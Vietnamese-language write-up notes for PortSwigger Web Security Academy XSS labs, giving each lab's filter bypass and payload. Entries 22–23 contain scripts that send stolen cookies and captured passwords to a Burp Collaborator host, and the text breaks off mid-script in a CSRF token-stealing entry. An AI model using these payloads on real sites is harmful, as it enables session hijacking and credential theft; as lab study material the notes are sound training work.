### 1. 
https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

---

### 2. 
https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

---

### 3. DOM location.search: 
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink

Dùng `document.write` để input đầu vào, payload: `"><svg onload=alert(1)>`

---

### 4. DOM location.search: 
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink

Dùng `innerHTML` để input đầu vào, payload: ``

---

### 5. DOM location.search: 
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink

Dùng `href` để gắn url cho `returnPath`:\
\


---

### 6. DOM location.hash: 
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event

\
`<iframe src="https://0a4e0024041585a782ae9cac005d0018.web-security-academy.net/#" onload="this.src+=''"></iframe>`

---

### 7. Reflected XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded

Bị encode `<>` nên ta không tìm cách thoát ra tag mà sẽ thêm vào attribute:\
Payload: `"onmouseover="alert(1)`

---

### 8. Store XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded

Vì bị encode `"` nên ta không thoát `href` mà sẽ thay bằng 1 cách để thực hiện javascript ngay trên URL:\
Payload: `javascript:alert(1)`

---

### 9. Reflected XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

\
Ta thấy input bị encode khi đưa vào HTML nhưng ta để ý nó lại đưa trực tiếp vào ` var searchTerms = 'abc';` nên ta tiêm thằng vào đây để thực hiện JS: `'; alert(1); '`

---

### 10. DOM XSS: 
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element

Nhập ngẫu nhiên input ta thấy hiển thị input ở dưới:\
\
Đọc code ta thấy, nếu chọn trong các store có sẵn nó sẽ hiển thị, hoặc cũng có thể nhập store đầu vào:\
\
Payload: `</select>`

---

### 11. DOM XSS: 
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression

Ở đây ta không thể dùng `<>` nên ta nghĩ đến 1 phương án khác, khi dùng 1 framework sẽ có 1 cách thực thi Javascript khác nhau, ở AngularJS có `ng-app` và ta sẽ dùng payload: `{{$on.constructor('alert(1)')()}}`

---

### 12. Reflected XSS: 
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected

Đọc code ta thấy file `resources/js/searchResults.js` dùng eval để xử lí đầu vào search:\
\
Với input `"abc"` hàm đã xử lý trả về JSON và dùng `\` để thoát dấu ngoặc kép `"`:\
\
Nhưng lại không thoát dấu `\` nên ta có thể sử dụng payload: `\"-alert(1)}//`\


Giair thích: với dấu `"` hệ thống sẽ chèn `\` vào trước, và vì đầu vào ta có 1 dấu `\` nên 2 dấu `\\` cạnh nhau không dùng để loại bỏ `"` nữa nên đã có thể đóng được đối tượng search, từ đó ta thêm hàm `alert()` và rồi comment `//` đoạn cuối.

---

### 13. DOM XSS: 
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored

Ở phần hiển thị các comment ta thấy file: `/resources/js/loadCommentsWithVulnerableEscapeHtml.js`\
\
File này dùng hàm `replace` để xóa các kí tự `<` và `>` nhưng lỗ hổng của hàm này là chỉ replace các kí tự đầu tiên được tìm kiếm nên ta có payload: `<>`

---

### 14. Reflected XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked

Thử với `<script>alert('1');</script>` thì nhận được: `"Tag is not allowed"` và nhiều tag khác\
Dùng `https://portswigger.net/web-security/cross-site-scripting/cheat-sheet` để tạo payload dùng tất cả các tag, đưa vào intruder:\
\
\
Dùng `body`, tạo payload với attribute:\
\
\
*Hoặc nếu lười hơn bạn có thể copy tất cả payload để thử.*\
Tiếp tục tạo payload gửi victim: `<iframe src="https://id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width=1>`

---

### 15. Reflected XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked

Bài này block hết tất cả tag ở bài trước, ta vẫn thử fuzzing bằng payload và nhận được khá nhiều request có 200 nhưng lại không thể `alert()` được dù vẫn thực hiện tag đó, chỉ có trường hợp là: `<a2 onfocus=alert(1) autofocus tabindex=1>` thì có thể `alert` nên ta dùng để viết payload gửi victim:``<script>
location= 'https://0af4001203d37e4280f56cba00c600af.web-security-academy.net/?search=%3caudio2%20onfocus%3dalert(document.cookie)%20autofocus%20tabindex%3d1%3e';
</script>``

---

### 16. Reflected XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

Dùng intruder tương tự tìm kiếm tag và event hợp lệ, payload: `<svg><animatetransform+onbegin%3Dalert(1)>`

---

### 17. Reflected XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

Tìm hiểu về canonical link tag ta biết có thể dùng phím ấn để gọi lệnh Javascript, payload: `https://0ab60079038ae8b88043080f0096000e.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)`

---

### 18. Reflected XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped

Ta thấy nếu dùng `'` thì sẽ bị dùng dấu backslash để escapse:\
\
Vậy bây giờ ta sẽ thoát hẳn đoạn `<script>` đó để tạo 1 đoạn `<script>` mới, payload: `</script><script>alert(1)</script>`\


---

### 19. Reflected XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped

Bài này escape cả `<>`, `'`, `"`, `\`, nếu input là `abc'` thì nó sẽ thêm dấu `\` để escape:\
\
Vậy nếu gửi `abc\` thì nó sẽ tự chèn thêm `\` và vì có `\\` nó sẽ không thoát:\
\
Payload: `\'-alert(1)//`

---

### 20. Stored XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

Bài này escape cả `<>`, `'`, `"`, ta sẽ tấn công vào sự kiện `onclick`, payload: `http://foo?&apos;-alert(1)-&apos;`, `http://foo?&#x27-alert(1)-&#x27`, cách này cũng có thể dùng với `href`

---

### 21. Reflected XSS: 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped

Ở bài này inject vào template nên ngoài các cách XSS cũ ta có thể nghĩ đến SSTI payload, bài này thử với `${}` thành công, và payload: `${alert(1)}`

---

### 22. Stored XSS: 
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

    ```js
    <script>
        fetch('https://ebty5bf18db9t8dai0aew74c83eu2lqa.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
        });
    </script>
    ```
    

---

### 23. Stored XSS: 
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords

Payload: 
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

---

### 24. Stored XSS to CSRF: 
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

Dùng XSS để đánh cắp `csrf token` và CSRF để đổi email:\
```js
<script>
    //Gửi request
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get','/my-account',true);
